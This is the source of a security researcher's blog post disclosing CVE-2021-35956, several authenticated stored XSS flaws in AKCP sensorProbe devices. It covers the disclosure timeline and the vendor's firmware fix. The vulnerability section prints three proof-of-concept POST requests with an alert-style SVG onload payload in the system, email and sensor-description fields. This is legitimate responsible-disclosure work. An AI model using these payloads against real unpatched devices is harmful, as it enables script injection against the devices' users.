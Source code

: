 ```yaml
---
title: CVE-2021-35956 AKCP sensorProbe - 'Multiple' Cross Site Scripting (XSS)
description: How I got my first CVE vulnerability assigned 🎉
featured: true
feature-header: "Featured Research \U0001F447"
tag: Vulnerability Research
image: "/assets/img/posts/2021-06-28-CVE-2021-35956/preview.png"
layout: post
date: '2021-06-28 00:01:21 -0400'
last-updated: '2021-06-28 00:01:21 -0400'
style: blog1
author: Tyler Butler
lead: How I got my first CVE vulnerability assigned 🎉
card: card-2
postid: 1
redirect_from:
- "/CVE-2021-35956"
navheader: posts
---
```


This week, I was incredibly fortunate to finally get my first CVE vulnerability assigned by Mitre 🎉 ! <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35956" class="highlighted">CVE-2021-35956</a> details multiple stored cross-site scripting (XSS) vulnerabilities I discovered in the AKCP sensorProbe embedded webserver. In this post, I'll describe the technical details of the vulnerability, the vendor's response, and remediation options. Overall AKCP was an exceptional partner in the responsible disclosure process, remediating the issue quickly and providing me with a test unit to verify the updated firmware. 

####  **Index**  
+  [Disclosure Timeline]({{page.url}}#-disclosure-timeline)
+  [About the Vendor]({{page.url}}#-about-the-vendor)
+  [Vulnerability Details]({{page.url}}#-cve-2021-35956-vulnerability-details)
+  [Firmware Upgrade]({{page.url}}#-firmware-upgrade)

#### **⏱ Disclosure Timeline**

  <div class="timeline mt-1 mb-1">
      <div class="tl-item active">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I attempt to find a security contact at AKCP, could not do so, and contacted the sales team at sales@akcp.com</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I recieve response from management, and release my responsible disclosure report</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me a copy of beta test firmware for the fix</div>
              <div class="tl-date text-muted mt-1">15 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me an ip address for a test unit to verify the fix, I confirm the vulnerability has been fixed</div>
              <div class="tl-date text-muted mt-1">16 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP releases updated <a href="http://www.akcp.in.th/downloads/Firmwares/SP480-20210624.zip" class="highlighted">firmware</a> on their website and updates their <a href="https://www.akcp.com/support-center/customer-login/sensor-probe-firmware-changelog/" class="highlighted">changelog</a> mentioning the XSS vulnerability</div>
              <div class="tl-date text-muted mt-1">25 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">I submit a request for CVE through Mitre's <a href="https://cveform.mitre.org/" class="highlighted">submission form</a></div>
              <div class="tl-date text-muted mt-1">28 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">Mitre reserves CVE-2021-35956 for the vulnerability </div>
              <div class="tl-date text-muted mt-1">29 June 2021</div>
          </div>
      </div>
    </div>

#### **💡 About the Vendor**  

<a href="https://www.akcp.com" class="highlighted">AKCP</a> is a sensor manufacturer developing network-based temperature, enviorment, and power monitoring devices. Their clients include big names like Nasa, Coca-cola, Toyota, Adobe, and much <a href="https://www.akcp.com/about-akcp-2/" class="highlighted">more</a>. Their most popular devices include the sensorProbe, securityProbe, and AKCPro Server. This research identifies multiple stored cross-site scripting vulnerabilities in all sensorProbe devices. According to <a href="https://www.akcp.com/akcp-products/sensorprobe-series/" class="highlighted">AKCP</a>, the sensorProbe devices are,

*"the worlds **most installed** Remote Environmental Sensor Monitoring Device ... deployed in a wide variety of industries including Data Center Environmental Monitoring, Warehouse Temperature Monitoring, Cold Storage Temperature Monitoring, Fuel / Generator Monitoring, and other Remote Site Monitoring applications."*



####  **🆘 CVE-2021-35956 Vulnerability Details**  

All sensorProbe devices prior to firmware version SP480-20210624 are vulnerable to authenticated stored cross-site scripting via the Sensor Description, Email, and System setting fields. Authenticated users can introduce arbitrary javascript through the vulnerable fields, and have payloads execute in the context of users who visit the sensorProbe embedded webserver dashboard. While stored XSS can be dangerous, this vulnerability requires the attacker to already be authenticated in order to store payloads. 

*The following section identifies proof of concepts for each vulnerable field*  

#### Stored Cross-Site Scripting via System Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the system name and system location parameters in system settings.

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  

```yaml
POST /system?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 114
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/system?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

_SA01=System+Namer&_SA02=RDC&_SA03=Name<svg/onload=alert`xss`>&_SA04=1&_SA06=0&_SA36=0&_SA37=0&sbt1=Save
```  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_0.png">
    </div>
</div>  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss-1.png">
    </div>
</div>  



#### 2) Stored Cross-Site Scripting via Email Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the mail from, mail to, and mail cc  parameters in email settings.  

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**

```yaml
POST /mail?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 162
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/mail?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


_PS03=test@test.com&_PS04=test@test.com&_PS05_0=test@test.com&_PS05_1=test@test.comr&_PS05_3=<svg/onload=alert`xxss`>&_PS05_4=&sbt2=Save
```   

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_2x.png">
    </div>
</div>  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_3.png">
    </div>
</div>  




#### 3) Stored Cross-Site Scripting via Sensor Description

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via sensor settings description parameter for each of the sensor options. 


**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  


```yaml
POST /senswatr?index=0&time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/senswatr?index=0&time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CPCookie=sensors=400
Connection: close

_WT00-IX="><svg/onload=alert`xss`>&_WT03-IX=2&sbt1=Save
```  

####  **🚀 Firmware Upgrade**  

As of Friday June 25th, SensorProbe users can upgrade their devices to SP480-20210624 according to AKCP standards outlined in the <a href="https://www.akcp.com/support-center/customer-login/sensorprobe-series-firmware-download/" class="highlighted">firmware download</a> page.  

```text
Firmware Update – Download – release date 28 June 2021
Latest Firmware – SP480-20210624
Note: To download files, right-click on the file and select “save as”
md5sum: 83f107f274ed6fda2cd5aa0f21935a98

IMPORTANT NOTE: The sensorProbe2 & SP8 units with the Atmega128 micro-controller (SPxxxi) do not support this firmware version. You can check your units micro-controller version in the web interface System page >> System Description. If you see an “I” after the firmware version (SPxxxi) then your unit is using the older Atmega128 micro-controller. Please see below for the latest firmware for your SP8 base unit.
```  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/changelog.png">
    </div>
</div>  



